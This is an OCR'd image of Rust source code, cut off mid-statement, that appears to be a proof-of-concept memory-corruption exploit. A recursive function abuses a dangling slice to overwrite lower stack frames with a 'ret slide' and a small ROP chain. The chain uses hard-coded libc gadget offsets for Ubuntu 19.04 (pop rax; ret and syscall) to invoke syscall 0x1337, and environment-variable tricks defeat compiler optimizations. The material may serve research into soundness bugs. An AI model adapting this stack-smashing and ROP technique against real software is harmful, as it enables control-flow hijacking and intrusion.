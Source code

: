 ```rust
fn my_print_str(s: &str) {
    io::stdout().write(s.as_bytes());
}

fn my_print(n: u64) {
    let s: String = n.to_string() + "\n";
    io::stdout().write(s.as_bytes());
}

// This function is only used to raise the stack frame and allow the dangling 
// slice to overwrite the stack frame of low stack frames.
fn rec(a: &mut [u64], b: &mut [u64], attack: &mut [u64], n: u64, lib_c: u64) {
    let mut array: [u64; 3] = [0; 3];
    a[0] += 1;
    b[0] += 1;

    array[0] = a[0] + 1;
    array[1] = a[0] + b[1] + 1;

    if a[0] > n {

        // ubuntu 19.04
        let pop_rax_ret = lib_c + 0x0000000000047cf8;
        let syscall_inst = lib_c + 0x0000000000026bd4;
        let ret = lib_c + 0x026422;

        // Overwrite the stack with ret slide
        for (j, el) in attack.iter_mut().enumerate() {
            *el = ret;
        }

        // Write our small rop chain            
        let x = 50;
        attack[x] = pop_rax_ret;
        attack[x + 1] = 0x1337;
        attack[x + 2] = syscall_inst;

        // Trigger
        return;
    }

    // Random calculation to kill compiler optimizations.
    if a[0] > 30 {
        b[0] = a[0] + a[1];
        rec(b, &mut array, attack, n, lib_c);
    } else {
        b[1] = a[2] + a[0];
        rec(&mut array, a, attack, n, lib_c);
    }
}

// using external variables to kill compiler optimizations
let n = if let Ok(args) = std::env::var("BLA") {
    args.len() as usize
} else {
    30
};

// using external variables to kill compiler optimizations
let n2 = if let Ok(args) = std::env::var("BLA") {
    10
} else {
    100
```